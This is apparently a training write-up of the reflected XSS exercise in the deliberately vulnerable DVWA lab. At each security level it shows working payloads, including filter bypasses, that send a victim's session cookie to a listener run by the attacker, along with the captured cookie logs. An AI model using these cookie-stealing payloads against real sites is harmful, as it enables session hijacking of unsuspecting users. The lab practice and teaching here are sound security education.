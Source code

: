 ```yaml
---
title: DVWA - XSS (Reflected)
date: 2023-12-17
categories: [Training, DVWA]
tags: [dvwa, xss, xss-reflected, cross-site-scripting, javascript]
img_path: /assets/dvwa/xss_reflected
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## Cross-Site Scripting (XSS) (Reflected)

XSS attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

An attacker can use XSS to send a malicious script to an unsuspecting user. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

Because its a **reflected XSS**, the malicious code is not stored in the remote web application, so **requires some social engineering** (such as a link via email/chat).

**Objective**: One way or another, steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_low_source.php))._

1. Putting our name in the input form, we notice the the parameter `name` appears on the address bar:

    ![](home_kuv4z.png)

2. Instead of our name, we can try a simple payload to see it will work:

    ![](low_test.png)

3. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](low_test.png)

4. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    ```

5. If we pass the exact same payload as the one we used for the [XSS (DOM)](https://cspanias.github.io/posts/DVWA-XSS-(DOM)/#security-low) section, it won't work:

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='+document.cookie</script>
    ```

    ![](low_payload_fail.png)

6. If we view the page's source, we will notice that the `+` symbol disappears:

    ![](low_page_source.png)

7. We can try to [URL-encode](https://www.w3schools.com/tags/ref_urlencode.ASP) the `+` symbol and try again:

    ![](url_enc.png)

    ```javascript
    <script>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```
    ![](low_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:17:49] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=low HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `<script>`, to disable any JavaScript ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_medium_source.php))._

1. First, let's get rid of the PHP error we have by changing `${name}` to `{$name}` in `/usr/share/dvwa/vulnerabilities/xss_r/source/medium.php` and refreshing the page:

    ![](php_error.png)

    ![](medium_php.png)

    ![](medium_php_fixed.png)

2. If we take a look at the page's source code, we will see that the `<script>` tag gets removed, so this time the same payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ![](medium_source_code.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_test.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:37:35] "GET /?cookie=security=medium;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

4. The developer's code is case sensitive so it is only checking for an exact match of `<script>`. So, we could also use the following payload to bypass this:

    ```javascript
    <SCRIPT>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

5. We could also apply the same concept as we did on the [LFI](https://cspanias.github.io/posts/DVWA-File-Inclusion/#local-file-inclusion-1) section, and pass the following payload:

    ```javascript
    <scr<script>ipt>window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie</script>
    ```

## Security: High
> _The developer now believes they can disable all JavaScript by removing the pattern `<s*c*r*i*p*t` ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_high_source.php))._

> You can fix the error as above.

1. This level can be attacked the same way as the previous one as the developer just changed the blacklisted pattern to `<s*c*r*i*p*t`:

    ```javascript
    <svg/onload=window.location='http://127.0.0.1:1337/?cookie='%2Bdocument.cookie>
    ```

    ![](high_payload.png)

    ```shell
    $ sudo python3 -m http.server 1337
    Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
    127.0.0.1 - - [17/Dec/2023 17:42:59] "GET /?cookie=security=high;%20PHPSESSID=gmij2886a88afu2o2l0fkt1943 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _Using inbuilt PHP functions, such as [`htmlspecialchars()`](https://secure.php.net/manual/en/function.htmlspecialchars.php), its possible to escape any values which would alter the behaviour of the input ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_reflected/xss_reflected_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=qHHADT52L5s).
- OWASP's [Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).